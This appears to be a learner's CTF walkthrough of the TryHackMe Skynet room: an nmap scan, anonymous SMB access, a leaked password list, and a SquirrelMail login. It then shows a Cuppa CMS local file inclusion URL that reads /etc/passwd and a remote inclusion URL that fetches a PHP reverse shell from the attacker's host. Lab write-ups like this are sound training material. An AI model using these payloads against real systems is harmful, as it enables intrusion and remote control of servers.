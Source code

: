 
NOTE: Accessing the http service did only work when i have burp proxy turned on. 

Lesson to learn:
- Just because you get 1 got idea, do not get stuck on it thinking its the only way to go. 
- In CTFs, we often follow a trail. Its rare that the "find stuff" that has no use. Example when we found the hidden subdirectory, we should investigate this! 


```
# Nmap 7.94SVN scan initiated Sat Feb  1 16:47:37 2025 as: nmap -sC -oN nmap 10.10.176.30
Nmap scan report for 10.10.176.30
Host is up (0.15s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http
|_http-title: Skynet
110/tcp open  pop3
|_pop3-capabilities: UIDL TOP AUTH-RESP-CODE SASL CAPA PIPELINING RESP-CODES
139/tcp open  netbios-ssn
143/tcp open  imap
|_imap-capabilities: capabilities IDLE OK ENABLE SASL-IR IMAP4rev1 have LOGINDISABLEDA0001 post-login ID LITERAL+ listed LOGIN-REFERRALS Pre-login more
445/tcp open  microsoft-ds

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2025-02-01T15:47:25-06:00
| smb2-time: 
|   date: 2025-02-01T21:47:25
|_  start_date: N/A
|_clock-skew: mean: 1h59m46s, deviation: 3h27m51s, median: -14s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

```


- **POP3:** "outdated imap", emails are downloaded to the client then deleted from the server.
- **NETbios-ssn:** "file sharing on a windows network", part of the SMB protocol stack. 
- **IMAP:** "modern POP3", keeps emails on the server and allow for synchronization across multiple devices

Listing smb shares:
```
smbclient -L //10.10.176.30 -N
```

![[Pasted image 20250202132303.png]]

Found a file on anonymous:

```
└─$ cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

With some logs, log1.txt have lots of what i assume possible passwords:
```
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

- Tried to brute force creds with this list on the ssh, pop3 and imap. Did not give a result using that password list with the users: 
```
milesdyson
skynet
terminator
Miles Dyson
miles
Miles
```

- There is a http service, we find a subdirectory:
```
/squirrelmail -> Has some login stuff.
Version: 1.4.23

```


Appaired two times in the log:
```
cyborg007haloterminator
```

Check it with the question on the thm page for miles password(kind of cheating, but its ok). And it is correct. Alternatively, we would have to bruteforce the the login on the squirrelmail with the user and password list we have, which would have worked. 

Login into the webinterface of the squirrelmail:
```
milesdyson
cyborg007haloterminator
```

![[Pasted image 20250202135603.png]]

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```


- We where able to login into miles smb share via the "files" application, and writing `smb://<ip>` in the search bar. 


From miles smb share:
```important.txt 
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

```

We find a new directory, by using gobuster again:
```
http://10.10.187.181/45kra24zxs28v3yd/administrator/
```
- NOTE: Gobuster only go 1 layer by default. 

There is a exploit on this Cuppa CMS admin site:

https://www.exploit-db.com/exploits/25971?ref=blog.tryhackme.com

```
http://10.10.187.181/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

^ allowed us to read files. 


NOTE: we can extract gunzip files like this:
```
gunzip filename.gz
```


Transfere a file via this vulnerability:
```
http://10.10.187.181/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.123.128:8000/php-reverse-shell.php?
```

- Note we need the `?` at the end to execute the file on the server.
- Also, we need to setup both a python http server where we get the shellcode from and a nc listener for when the reverse shell is to be executed. 


![[Pasted image 20250202190618.png]]

Appairently there is a way to exploit the backup.sh which runs once per min: https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com

